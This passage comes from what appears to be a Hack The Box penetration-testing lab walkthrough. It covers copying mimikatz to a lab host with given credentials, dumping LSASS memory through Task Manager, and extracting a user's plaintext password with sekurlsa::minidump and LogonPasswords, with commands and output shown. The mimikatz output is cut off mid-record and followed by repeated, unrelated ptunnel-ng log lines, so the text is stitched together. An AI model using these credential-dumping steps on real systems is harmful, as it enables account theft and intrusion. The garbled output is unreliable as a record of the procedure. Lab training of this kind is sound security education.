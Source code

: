 Then, within the `x64` folder, students need to copy and paste `mimikatz.exe` into `172.16.5.35` (with the credentials `mlefay:Plain Human work!`) utilizing the same `xfreerdp` session from the previous section:

![[HTB Solutions/CPTS/z. images/ac0ffef01ba4ec086270d6355cff383c_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/5e2839adb79b08e3ba47bb5aa6747a64_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/8098307c2f780c164335008f149859e9_MD5.jpg]]

Subsequently, students need to create a dump file of `lsass.exe`; first, they need to run `Task Manager` as administrator:

![[HTB Solutions/CPTS/z. images/a947e7fe70c1fe4b60f55165d5f0f0fc_MD5.jpg]]

Then, once they find `Local Security Authority Process`, students need to right-click and select `Create dump file`:

![[HTB Solutions/CPTS/z. images/a4d72164aff47298469051dc05ba7910_MD5.jpg]]

Students will be notified that the dump has been written to `C:\Users\mlefay\AppData\Local\Temp\lsass.DMP`:

![[HTB Solutions/CPTS/z. images/5cd4c2d24d1d912b1f7551d0d3165661_MD5.jpg]]

Thereafter, students then need to launch `mimikatz` by double-clicking on its icon:

```
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY \`gentilkiwi\` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::minidump C:\Users\mlefay\AppData\Local\Temp\lsass.DMP
Switch to MINIDUMP : 'C:\Users\mlefay\AppData\Local\Temp\lsass.DMP'
```

Students need to use the `sekurlsa` module with `LogonPasswords` to list all available provider credentials:

```cmd
sekurlsa::LogonPasswords
```
```
mimikatz # sekurlsa::LogonPasswords

Opening : 'C:\Users\mlefay\AppData\Local\Temp\lsass.DMP' file for minidump...
```

From the output of `sekurlsa::LogonPasswords`, students will find that the user `vfrank` is vulnerable, as the user's password is exposed to be `Imply wet Unmasked!`:

```
Authentication Id : 0 ; 160843 (00000000:0002744b)
Session           : Service from 0
User Name         : vfrank
Domain            : INLANEFREIGHT
Logon Server      : ACADEMY-PIVOT-D
Logon Time        : 11/20/2022 10:09:13 AM
SID               : S-1-5-21-3858284412-1730064152-742000644-1103
        msv :
         [00000003] Primary


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.